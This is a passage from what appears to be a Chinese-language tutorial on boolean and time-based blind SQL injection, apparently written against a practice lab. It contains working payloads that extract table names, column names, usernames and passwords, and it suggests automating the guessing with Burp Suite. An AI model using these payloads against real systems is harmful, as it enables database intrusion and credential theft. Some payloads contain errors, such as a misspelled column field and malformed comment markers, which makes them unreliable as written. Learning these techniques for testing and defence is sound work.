 > 5.接着在猜测表名和列名
>

```
?id=1’ and (select ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)))=101-- -

?id=1’ and (select ascii(substr((select columns_name from information_schema.columns where table_name=’users’ limit 0,1),1,1)))=117–- 
```

> 注：猜测一个表的表名与上面猜测数据库名一致，然后如果要换下一个表名或则列名猜测，可在 `limit 0,1` 换成 `limit 1,1` ，`limit 2,1`，`limit 3,1`......
>
> 6.接着猜测用户名与密码则可改写里面的select语句，如

```
?id=1’ and (select ascii(substr((select username from users limit 0,1),1,1)))=68-- -
?id=1’ and (select ascii(substr((select password from users limit 0,1),1,1)))=68-- -
```



## SQL时间盲注



sleep,benchmark,GET_LOCK(str,timeout)

> 1.判断闭合符号 `‘`，`“`， ，`’)`，`”)`，和`and sleep(2)` ,发现正确的闭合符号会执行后面的sleep语句，可判断哪个闭合符号正确
>
> 2.判断库名长度
>
> 如果length大于8，则页面会等待俩秒，如果没有大于8，则返回0，表现是页面马上刷新成功，具体可以通过**页面右键**的**检查**内的**网络**判断

```
?id=1' and if(length(database())>8,sleep(2),1) -- -
```

> 3.判断库名
>
> 可通过burpsuite内的攻击模块的集束炸弹，改变 ascii(substr(database(),**1**,1))=**115 **加粗的俩个数值的变量，分析出具体名字，详细情况跟上一节的**布尔盲注**类似

```
?id=1' and if(ascii(substr(database(),1,1))=115,sleep(2),1) -- -
```

> 4.判断表名
>
> 若要分析下一个表名，可改 limit **0**,1 中的加粗数值，改为1，2，3，4......

```
?id=1’ and if(ascii(substr((select table_name from information_schema.tables where table_schema=‘security’ limit 0,1),z,d))=e,sleep(1),1)-- -
```

> 5.判断列名
>
> 若要分析下一个列名，可改 limit **0**,1 中的加粗数值，改为1，2，3，4......
